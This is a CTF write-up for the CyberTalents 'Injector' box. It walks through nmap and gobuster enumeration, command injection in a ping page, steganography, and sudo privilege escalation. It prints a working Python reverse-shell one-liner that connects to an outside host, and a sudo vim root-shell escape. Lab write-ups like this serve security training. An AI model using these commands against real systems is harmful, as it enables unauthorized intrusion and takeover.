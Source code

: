 ```yaml
---
title: "CyberTalents Injector Machine Writeup"
date: "2020-12-13"
layout: single
---
```

![logo](https://k.top4top.io/p_18081y31k1.png)

Injector machine is an easy box with some good ideas.

By the way, I couldn't solve the machine through the vpn because of some problems, but I solved the machine through it's public IP which is 3.127.234.70

# Methodology
* Enumeration
* Exploiting Command Injection Vulnerability
* Privilege Escalation

>so first i'll do Nmap scan to find out which services running in this machine

# []()Nmap Scan :
```ruby
# Nmap 7.91 scan initiated Sun Dec 13 16:14:30 2020 as: nmap -sV -sC -oN nmap 3.127.234.70
Nmap scan report for ec2-3-127-234-70.eu-central-1.compute.amazonaws.com (3.127.234.70)
Host is up (0.089s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c:34:1a:fd:db:03:c5:81:05:b0:64:cf:70:ad:63:3e (RSA)
|   256 04:f2:79:9a:04:fd:0e:78:ac:df:12:50:55:4d:a2:c6 (ECDSA)
|_  256 a8:67:8f:0c:e9:b1:3d:53:b4:9d:fe:fd:93:af:e6:5b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Well now we have 2 open ports which is :

* 22/tcp > ssh > OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux;protocol 2.0)
* 80/tcp > http > Apache httpd 2.4.29 ((Ubuntu))

> Now i'll check the webserver

![webserver](https://f.top4top.io/p_1808i2h201.png)

it's Apache2 ubuntu default page, nothing is interesting here so let's do directory listing using gobuster.

```python
┌─[kali@kali]─[~]
└──╼ $gobuster dir -u http://3.127.234.70/ -w /usr/share/dirb/wordlists/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://3.127.234.70/
[+] Threads:        10
[+] Wordlist:       /usr/share/dirb/wordlists/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/13 16:50:56 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/secret (Status: 301)
/server-status (Status: 403)
===============================================================
```
> we got /secret directory so let's open it!

![dir](https://c.top4top.io/p_1808t0ppg1.png)

nothing is interesting again so maybe let's do directory listing again!

```python
┌─[kali@kali]─[~]
└──╼ $gobuster dir -u http://3.127.234.70/secret/ -w /usr/share/dirb/wordlists/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://3.127.234.70/secret/
[+] Threads:        10
[+] Wordlist:       /usr/share/dirb/wordlists/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/13 17:43:25 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/company (Status: 301)
/admin.html (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/root (Status: 301)
/test (Status: 301)
/tools (Status: 301)
===============================================================
```
now we got /company, /admin.html, /root, /test and /tools!

> btw i checked company, admin.html, root, test directories and there's nothing intersting there.

then i opened tools directory and i found this

![dir](https://j.top4top.io/p_1808si31p1.png)

also i opened ping.php and i found this page!

![pingo](https://c.top4top.io/p_18087gump1.png)

> It's a pinging script vulnerable to Command Injection vulnerability

while it's a command injection vulnerability i manged to get a reverse shell and spwaning a tty shell using this one line python3 code

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.x.x.x",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

and bingo! we to poped a shell and now we're in www-data.

![shell](https://k.top4top.io/p_1808cr6621.png)


# Privilege Escalation :

> while playing and searching i found an image called TrollFace.jpg in /var/www directory and i downloaded it to my machine using the netcat method 

![trollface](https://j.top4top.io/p_1808qvhkr1.png)

> i used strings and stegosuite and got nothing useful so i tried to extract it using steghide and i managed to get a password without passphrase!

![stegohelpsalot](https://d.top4top.io/p_1808cr6vd1.png)

and i came back to the machine to read /etc/passwd and i found a user called alex and i switched to this user using the password that we got from TrollFace image

![alex](https://c.top4top.io/p_1808ucm1c1.png)

>now i used ![linux-exploit-suggester](https://raw.githubusercontent.com/jondonas/linux-exploit-suggester-2/master/linux-exploit-suggester-2.pl) to search for possible exploits but no exploits are available for this machine kernel version..

so i typed sudo -l to see if there's anything running with root permissions and i found vim working with root permissions so i used this command to pop a r00t shell
```bash
sudo vim -c ' : ! /bin/sh ' /usr/bin/vim
```
![vimonfire](https://l.top4top.io/p_1808zkh611.png)

and we got root flag.

![r00t!](https://j.top4top.io/p_1808volbp1.png)

for any questions dm me on ![Facebook](https://facebook.com/Jizen0x01)

* cheers!
